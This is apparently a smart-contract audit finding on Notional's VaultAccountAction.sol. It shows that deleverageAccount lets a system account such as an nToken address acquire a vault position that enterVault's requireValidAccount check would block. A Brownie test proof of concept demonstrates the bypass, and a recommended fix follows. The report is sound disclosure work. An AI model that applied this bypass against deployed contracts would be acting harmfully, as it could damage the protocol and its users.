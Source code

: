 Arbitrary-Execution

medium

# `deleverageAccount` can be used by an address to enter a vault that would otherwise be restricted by the `requireValidAccount` check in `enterVault`

## Summary
`deleverageAccount` can be used by an address to enter a vault that would otherwise be restricted by the `requireValidAccount` check in `enterVault`

## Vulnerability Detail
When `enterVault` in `VaultAccountAction.sol` is called, the first function that is called is `requireValidAccount`. This function checks to ensure that the passed-in `account` parameter is not a system-level account address:

```solidity
require(account != Constants.RESERVE); // Reserve address is address(0)
require(account != address(this));
(
    uint256 isNToken,
    /* incentiveAnnualEmissionRate */,
    /* lastInitializedTime */,
    /* assetArrayLength */,
    /* parameters */
) = nTokenHandler.getNTokenContext(account);
require(isNToken == 0);
```

With the above checks, `requireValidAccount` ensures that any Notional system-level account cannot enter a vault. However, `deleverageAccount` in `VaultAccountAction.sol` allows liquidators to transfer vault shares from a liquidated account into their own account. In the case that a liquidator is not already entered into a vault, then `deleverageAccount` will instantiate a vault account for them (using `_transferLiquidatorProfits`) before depositing the liquidated account's vault shares into the newly-instantiated account. This effectively circumvents the `requireValidAccount` check in `enterVault`.

## Impact
Any address that would otherwise be restricted from entering vaults via the `requireValidAccount` check would be able to circumvent that function using `deleverageAccount`. I assume these system-level accounts are restricted from entering vaults as they have access to internal Notional state and are used across the protocol, so having them be able to enter vaults could negatively impact Notional.

Assuming that all the relevant Notional system accounts are smart contracts that do not allow arbitrary calls, then having any of the system accounts themselves trigger this issue is infeasible. However, as a result of another issue it is possible for a vault to force an arbitrary address to deleverage accounts, which could be used to force a Notional system account to enter into a vault.

## Code Snippet
https://github.com/notional-finance/contracts-v2/blob/cf05d8e3e4e4feb0b0cef2c3f188c91cdaac38e0/contracts/external/actions/VaultAccountAction.sol#L412-L419

PoC (add to `tests/stateful/vaults/test_vault_deleverage.py`);
```python3
def test_deleverage_account_instantiate_liquidator_maturity(environment, accounts, vault):
    environment.notional.updateVault(
        vault.address,
        get_vault_config(currencyId=2, flags=set_flags(0, ENABLED=True)),
        100_000_000e8,
    )
    maturity = environment.notional.getActiveMarkets(1)[0][1]
    systemAccount = accounts.at(environment.nToken[1], force=True)
    environment.token["DAI"].transfer(systemAccount, 10_000_000e18, {"from": accounts[0]})
    environment.cToken["DAI"].transfer(systemAccount, 10_000_000e8, {"from": accounts[0]})
    environment.token["DAI"].approve(environment.notional.address, 2 ** 256 - 1, {"from": systemAccount})
    environment.cToken["DAI"].approve(environment.notional.address, 2 ** 256 - 1, {"from": systemAccount})

    with brownie.reverts():
        # nToken address is not allowed to enter a vault
        environment.notional.enterVault(
            systemAccount,
            vault.address,
            100_000e18,
            maturity,
            100_000e8,
            0,
            "",
            {"from": systemAccount},
        )

    environment.notional.enterVault(
        accounts[1], vault.address, 50_000e18, maturity, 200_000e8, 0, "", {"from": accounts[1]}
    )

    vault.setExchangeRate(0.95e18)

    environment.notional.deleverageAccount(
        accounts[1], vault.address, systemAccount, 1_000e8, True, "", {"from": systemAccount}
    )

    # System account now has a position in the vault
    systemAccountInfo = environment.notional.getVaultAccount(systemAccount, vault)
    assert systemAccountInfo["maturity"] != 0
```

## Tool used

Manual Review

## Recommendation
Consider updating the `require` statement in `_transferLiquidatorProfits` to the following:
```solidity
require(liquidator.maturity == maturity, "Vault Shares Mismatch"); // dev: has vault shares
```
Removing the option of allowing addresses that do not have a maturity in the respective vault to receive shares and therefore implicitly enter a vault prevents Notional system accounts from being able to enter into vaults.